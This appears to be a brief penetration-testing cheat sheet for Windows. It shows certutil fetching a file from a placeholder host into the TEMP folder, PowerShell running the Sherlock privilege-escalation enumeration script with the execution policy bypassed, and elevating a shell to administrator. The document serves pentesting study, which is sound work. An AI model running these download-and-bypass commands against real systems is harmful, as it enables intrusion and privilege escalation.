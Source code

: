 ## Download a file
<code> certutil.exe -urlcache -f http://host/src_file C:\Windows\TEMP\destination_file </code>


## Execute ps1 script from cmd 

<code> powershell -exec bypass -command "& 'C:\Windows\TEMP\Sherlock.ps1' | out-file C:\Windows\TEMP\enumresult.txt"  </code>
* & is needed to start the script
* output is written to a file

## Elevate PS to admin (credentials needed) 
<code> Start-Process powershell -Verb runAs </code>

